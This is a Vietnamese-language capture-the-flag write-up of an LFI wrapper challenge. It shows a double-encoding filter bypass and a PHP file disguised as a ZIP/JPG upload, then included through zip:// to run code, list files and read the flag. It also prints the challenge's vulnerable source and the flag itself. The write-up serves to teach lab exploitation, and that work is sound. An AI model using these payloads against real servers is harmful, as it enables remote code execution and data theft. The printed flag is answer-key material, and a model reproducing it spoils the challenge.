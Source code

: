 # Local File Inclusion - Wrappers

**40 Points** 

**Title**

Abbreviated LFI

**Statement**

Retrieve the flag.

## Analysis:

Website thực hiện upload và hiển thị ảnh:


<p align="center"><img src="images/upload.png"></p>

Đây là một bài LFI nên ta thử fuzzy các tham số URL. Test với biến `page`, input `..`, ta thấy bị filter (thông báo "Attack Detected"). Thử url-encode thì cũng bị lọc. Thử tiếp với double-encoding thì OK. Input: `%252e%252e`

![image](images/double-encode.png)


Cảnh báo lỗi vì không tìm thấy file `%2e%2e.php`. Trước mắt, chúng ta biết được trang web dùng file `upload.php` (lúc mới vào trang thì `page=upload`), nên thử xem nội dung file này. Sử dụng PHP Wrappers Filter, payload `php://convert.base64-encode/resource=upload` và chuyển sang double-encoding:

```
php:%252f%252fconvert%252ebase64-encode%252fresource=upload
```

Tiếp tục bị filter, sau một hồi phân tích ta có bộ lọc sau:

Filter:  `..` `%2f` `php`

Sau một hồi tìm kiếm giải pháp, ta biết được trong ngữ cảnh upload file như thế này có một loại Wrapper được sử dụng là `zip://` ([Compression Wrappers](https://www.php.net/manual/en/wrappers.compression.php)). Wrapper này sẽ unzip file và mở luồng (stream) để đọc/ghi file. Đồng thời, hãy nhớ rằng giá trị của `page` sẽ được nối chuỗi với `.php`, vì vậy ta chỉ có thể tạo code PHP. Như vậy, với tính năng này ta có thể tạo một mã code PHP và nén lại dưới định dạng ZIP và đổi đuôi thành .JPG (vì site chỉ cho mình upload định dạng JPG). Việc này không ảnh hưởng đến quá trình unzip, vì dù đổi đuôi file nhưng [signature](https://en.wikipedia.org/wiki/List_of_file_signatures) của file trong header vẫn là một định dạng ZIP hợp lệ.

Cách sử dụng:

```
zip://archive.zip#dir/file.txt
```
Với `archive.zip` là file cần được giải nén. Sau dấu `#` là đường dẫn đến file cụ thể cần được lấy ra 

Với việc sử dụng Wrapper, ta phải cần biết đường dẫn của file. Trang web sẽ output hình ảnh cho ta thấy nên ta có thể lấy thông tin này trong source code (Ctrl + U). Ví dụ, khi upload một file bất kỳ thành công:

<p align="center"><img src="images/path.png"></p>

Code PHP:

```php
<?php
    echo "khangtictoc";
?>
```

Lưu vào file `solve.php` -> (Nén thành file ZIP) -> `solve.zip` -> (Đổi đuôi) -> `solve.jpg`

Upload lên server:

<p align="center"><img src="images/upload_code.png"></p>

Hình ảnh sẽ không hiện ra. Of course :)), file upload lên là file zip (nhưng mà đuôi là .png). Vậy mình sẽ lấy đường dẫn file trên và đọc file ra trong source code là `tmp/upload/tp26d9uqM.jpg`. 

> NOTE: Lưu ý loại wrapper này cho phép unzip file ra và thực thi(render) đoạn code 

Payload: (Convert `#` thành `%23` nếu không thì URL sẽ bị hiểu nhầm đi tới internal link `#solve` của page)

```
zip://tmp/upload/tp26d9uqM.jpg%23solve
```

<p align="center"><img src="images/long_path.png"></p>

Nhưng mà path name lại bị quá dài :<< . Cố để path name ngắn nhất có thể thử, rename `solve.php` thành `a.php` rồi thực hiện các bước tương tự như trên. Payload trong trường hợp của mình:

```
zip://tmp/upload/r6LpKOMlo.jpg%23a
```

<p align="center"><img src="images/result1.png"></p>

Vậy là mình đã thực thi được code PHP. Giờ thì dùng sự sáng tạo để lấy flag thôi :> . Thử đọc file `index.php` (file source của challenge trang hiện tại) và thực hiện tương tự:

```php
<?php
    echo file_get_contents("index.php");
?>
```

Ta lấy được full source code nhưng không có flag hay thông tin liên quan:

```php
<?php
@$p = $_REQUEST['page'];
$t=preg_match("/index/i",$p);
if($p != "" && $t == 0)
{
$haq = "<br /><br /><strong>Attack detected</strong>";

if(strstr($p,"..") !== FALSE)
die("<pre>$haq</pre>");

if(stristr($p,"http") !== FALSE)
die("<pre>$haq</pre>");

if(stristr($p,"ftp") !== FALSE)
die("<pre>$haq</pre>");

if(stristr($p,"php") !== FALSE)
die("<pre>$haq</pre>");

if(strlen($p) > 33)
die("<pre>page name too long</pre>");

if(isset($p))
$inc = sprintf("%s.php",$p);


if(isset($inc))
	include($inc);
}
?>
```

Ta thử liệt kê các file trong đường dẫn hiện tại xem có file flag hay không (chỉ đoán thôi, chứ liệt kê hết cả hệ thống thì lâu lắm). Dùng [scandir](https://www.php.net/manual/en/function.scandir.php)

```php
<?php
print_r(scandir("."));
?>
```
> NOTE: scandir trả về một mảng (associative_array)

<p align="center"><img src="images/result2.png"></p>

Ta thấy có file `flag-mipkBswUppqwXlq9ZydO.php`, đọc file này ra:

```php
<?php
    echo file_get_contents("flag-mipkBswUppqwXlq9ZydO.php");
?>
```

Nội dung trong file render ra không có gì hết. Vô source code kiểm tra :

<p align="center"><img src="images/flag.png"></p>

Flag: **lf1-Wr4pp3r_Ph4R_pwn3d**

